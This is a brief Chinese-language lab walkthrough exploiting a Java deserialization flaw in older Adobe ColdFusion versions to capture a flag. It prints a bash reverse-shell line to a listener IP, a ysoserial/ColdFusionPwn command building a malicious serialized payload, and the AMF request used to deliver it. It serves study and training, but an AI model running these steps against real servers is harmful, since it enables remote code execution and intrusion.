

### 漏洞原理
Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

### writeup

启动靶场



反弹shell的poc需要在 http://www.jackson-t.ca/runtime-exec-payloads.html 网站进行转码

反弹Shell格式

```
bash -i >& /dev/tcp/ip/port 0>&1
```

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```

攻击机执行

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 '编码后的反弹shell-poc' getshell.ser
```

执行后会生成一个getshell.ser文件


另起一终端监听端口

启动burp ， 上传ser文件


再添加HTTP头部

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:端口
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853
```
发送数据包


反弹shell，获取到flag


